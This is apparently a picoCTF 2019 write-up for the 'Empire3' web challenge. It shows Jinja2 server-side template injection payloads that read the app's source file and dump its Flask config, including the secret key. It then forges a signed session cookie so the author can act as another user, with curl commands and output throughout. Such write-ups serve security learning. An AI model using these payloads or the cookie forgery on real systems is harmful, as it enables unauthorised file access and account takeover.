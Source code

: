 # Empire3
Web Exploitation, 500 points

## Description:
> Agent 513! One of your dastardly colleagues is laughing very sinisterly! Can you access his todo list and discover his nefarious plans?


## Solution: 

This is the follow-up for [Empire2](Empire2.md).

We'll use the same solution that worked for the previous challenge:

```console
root@kali:/media/sf_CTFs/pico/Empire3# python shell.py
Logged in
(Cmd) send 4*4
Sending: '{{4*4}}'

16

(Cmd) send ''.__class__.mro()[1].__subclasses__()[157]()._module.__builtins__['open'](''.__class__.mro()[1].__subclasses__()[157]()._module.__builtins__.__import__('os').path.join('app', '__init__.py')).read
()
Sending: '{{''.__class__.mro()[1].__subclasses__()[157]()._module.__builtins__['open'](''.__class__.mro()[1].__subclasses__()[157]()._module.__builtins__.__import__('os').path.join('app', '__init__.py')).read()}}'

from flask import Flask
from app.config import Config
from flask_sqlalchemy import SQLAlchemy
from flask_login import LoginManager
from flask_bootstrap import Bootstrap
import time,atexit
from apscheduler.schedulers.background import BackgroundScheduler

app = Flask(__name__)
app.config.from_object(Config)
db = SQLAlchemy(app)
login = LoginManager(app)
login.login_view = 'login'
bootstrap=Bootstrap(app)

from app import routes,models

def DB_init(db):
    db.drop_all()
    db.create_all()

    u = models.User(username='jarrett.booz',password_hash='deadbeef',id=1,admin=0,secret='Likes Oreos.', name="Jarrett Booz")
    db.session.add(u)

    u = models.User(username='danny.tunitis',password_hash='deadbeef',id=2,admin=0,secret='Know it all.', name= "Danny Tunitis")
    db.session.add(u)

    c = models.Todo(item='Shrink the moon', user_id=1)
    db.session.add(c)

    c = models.Todo(item='Grab the moon', user_id=1)
    db.session.add(c)

    c = models.Todo(item='Sit on the toilet', user_id=1)
    db.session.add(c)

    c = models.Todo(item='Make 2000 more Pico problems', user_id=2)
    db.session.add(c)

    c = models.Todo(item='Do dastardly plan: picoCTF{cookies_are_a_sometimes_food_8038d44f}', user_id=2)
    db.session.add(c)

    c = models.Todo(item='Buy milk', user_id=2)
    db.session.add(c)

    db.session.commit()

try:
    DB_init(db)
    scheduler = BackgroundScheduler()
    scheduler.add_job(func=DB_init,args=(db,),trigger="interval",hours=2)
    scheduler.start()
    atexit.register(lambda: scheduler.shutdown())
except Exception as e:
    print(e)
```

The flag is related to cookies (`picoCTF{cookies_are_a_sometimes_food_8038d44f}`), so again, this looked like an unintended solution.

## Additional Solution

An additional way to solve the challenge, based on [another writeup](http://cyberchallenge.unica.it/index.php/2019/10/13/web-empire3/). This is probably the intended solution. It's also pretty similar to last year's [Flaskcards Skeleton Key](/2018_picoCTF/Flaskcards%20Skeleton%20Key.md)

First, we read the Flask configuration to get the secret key used for signing the cookies:

```console
root@kali:/media/sf_CTFs/pico/Empire3# python shell.py
Logged in
(Cmd) send config
Sending: '{{config}}'

<Config {'ENV': 'production', 'DEBUG': False, 'TESTING': False, 'PROPAGATE_EXCEPTIONS': None, 'PRESERVE_CONTEXT_ON_EXCEPTION': None, 'SECRET_KEY': '9806d62bb5f4986c09a3872abf448e85', 'PERMANENT_SESSION_LIFETIME': datetime.timedelta(31), 'USE_X_SENDFILE': False, 'SERVER_NAME': None, 'APPLICATION_ROOT': '/', 'SESSION_COOKIE_NAME': 'session', 'SESSION_COOKIE_DOMAIN': False, 'SESSION_COOKIE_PATH': None, 'SESSION_COOKIE_HTTPONLY': True, 'SESSION_COOKIE_SECURE': False, 'SESSION_COOKIE_SAMESITE': None, 'SESSION_REFRESH_EACH_REQUEST': True, 'MAX_CONTENT_LENGTH': None, 'SEND_FILE_MAX_AGE_DEFAULT': datetime.timedelta(0, 43200), 'TRAP_BAD_REQUEST_ERRORS': None, 'TRAP_HTTP_EXCEPTIONS': False, 'EXPLAIN_TEMPLATE_LOADING': False, 'PREFERRED_URL_SCHEME': 'http', 'JSON_AS_ASCII': True, 'JSON_SORT_KEYS': True, 'JSONIFY_PRETTYPRINT_REGULAR': False, 'JSONIFY_MIMETYPE': 'application/json', 'TEMPLATES_AUTO_RELOAD': None, 'MAX_COOKIE_SIZE': 4093, 'SQLALCHEMY_DATABASE_URI': 'sqlite://', 'SQLALCHEMY_TRACK_MODIFICATIONS': False, 'SQLALCHEMY_BINDS': None, 'SQLALCHEMY_NATIVE_UNICODE': None, 'SQLALCHEMY_ECHO': False, 'SQLALCHEMY_RECORD_QUERIES': None, 'SQLALCHEMY_POOL_SIZE': None, 'SQLALCHEMY_POOL_TIMEOUT': None, 'SQLALCHEMY_POOL_RECYCLE': None, 'SQLALCHEMY_MAX_OVERFLOW': None, 'SQLALCHEMY_COMMIT_ON_TEARDOWN': False, 'SQLALCHEMY_ENGINE_OPTIONS': {}, 'BOOTSTRAP_USE_MINIFIED': True, 'BOOTSTRAP_CDN_FORCE_SSL': False, 'BOOTSTRAP_QUERYSTRING_REVVING': True, 'BOOTSTRAP_SERVE_LOCAL': False, 'BOOTSTRAP_LOCAL_SUBDOMAIN': None}>

(Cmd) exit

```

We sign in and save the cookie:

```console
root@kali:/media/sf_CTFs/pico/Empire3# base_url=https://2019shell1.picoctf.com/problem/45132; curl "$base_url/login" --cookie "cookies.txt" --cookie-jar "cookies.txt" -s -v --data "csrf_token=$(curl "$base_url/login" --cookie "cookies.txt" --cookie-jar "cookies.txt" -s | grep csrf | awk '{ printf $5 }' | sed 's/value="//g' | sed 's/">//')&username=user&password=password" 2>&1 | grep Cookie
> Cookie: session=.eJwlz01qAzEMQOG7eJ2FrV8rlxksWaKl0MJMsiq9ewI9wIPv_bajzrw-2v1xPvPWjs_d7s2oyhZKMuvWRaG5t0lIUJnN3jt31k7u5emTF8gyU89hsIcKgc_ZR6DtLMYOYzDhnrrUapoQaRlwLjIK4aANDEHqIqPIV7u1uM46Hj9f-f32qK5wMcG5MYeiR6Qr9EBWzHCLTJjA7-555fk_ge3vBWc8PpY.XaXtmg.iKsUADWNOPFQ4iKm3eYHoF4v0qI
< Vary: Cookie
```

We decode the cookie with [flask-session-cookie-manager](https://github.com/noraj/flask-session-cookie-manager) (note that I had to use the Python3 version this time, as the Python2 version created cookies that were rejected by the server in the next step):
```console
root@kali:/media/sf_CTFs/pico/Empire3# c=.eJwlz01qAzEMQOG7eJ2FrV8rlxksWaKl0MJMsiq9ewI9wIPv_bajzrw-2v1xPvPWjs_d7s2oyhZKMuvWRaG5t0lIUJnN3jt31k7u5emTF8gyU89hsIcKgc_ZR6DtLMYOYzDhnrrUapoQaRlwLjIK4aANDEHqIqPIV7u1uM46Hj9f-f32qK5wMcG5MYeiR6Qr9EBWzHCLTJjA7-555fk_ge3vBWc8PpY.XaXtmg.iKsUADWNOPFQ4iKm3eYHoF4v0qI

root@kali:/media/sf_CTFs/pico/Empire3# python3 ~/utils/flask-session-cookie-manager/flask_session_cookie_manager3.py decode -s '9806d62bb5f4986c09a3872abf448e85' -c "$c"
{'_fresh': True, '_id': '94ff9a36e557d7a4c7edd96c6c4f998000505704bbfbeb85a26a997be192d17642b8801c39def530211543d87a79f896447f925ea494c65c4d252c47b661f4ba', 'csrf_token': '77acb69638d3e173bcceb720c3573ecb9cee2825', 'user_id': '3'}
```

Edit the cookie and set `user_id` to `2` instead of `3`:

```console
root@kali:/media/sf_CTFs/pico/Empire3# python3 ~/utils/flask-session-cookie-manager/flask_session_cookie_manager3.py encode -s '9806d62bb5f4986c09a3872abf448e85' -t "{'_fresh': True, '_id': '94ff9a36e557d7a4
c7edd96c6c4f998000505704bbfbeb85a26a997be192d17642b8801c39def530211543d87a79f896447f925ea494c65c4d252c47b661f4ba', 'csrf_token': '77acb69638d3e173bcceb720c3573ecb9cee2825', 'user_id': '2'}"
.eJwlz0lqAzEQQNG7aO2FVKpB5cs0qomEQALd9irk7jbkAB_e_21HnXl9tPvjfOatHZ_R7k2xSvfkJJKQjS4ZoezsWKqr906dpKNZWdqiDbxVxXIoxBBGsLX68KmRRbPDGIQzlmzRWsqIUgqUGxWdyTGAwFGMeRTabrfm11nH4-crv98eke3GynPFzCHT3NMEuk-SmW7qmbCA3t3zyvN_AtrfC2c5PpU.XaX3qA.ORVdqh-0iJQkIjXNcElr5vSPjZY
```

List the TODOs with for user 2 and read the flag:
```console
root@kali:/media/sf_CTFs/pico/Empire3# curl "$base_url/list_items" -H "Cookie: session=.eJwlz0lqAzEQQNG7aO2FVKpB5cs0qomEQALd9irk7jbkAB_e_21HnXl9tPvjfOatHZ_R7k2xSvfkJJKQjS4ZoezsWKqr906dpKNZWdqiDbxVxXIoxBBGsLX68KmRRbPDGIQzlmzRWsqIUgqUGxWdyTGAwFGMeRTabrfm11nH4-crv98eke3GynPFzCHT3NMEuk-SmW7qmbCA3t3zyvN_AtrfC2c5PpU.XaX3qA.ORVdqh-0iJQkIjXNcElr5vSPjZY" -s | grep picoCTF
                                <strong>Very Urgent: </strong>Do dastardly plan: picoCTF{cookies_are_a_sometimes_food_8038d44f}
```
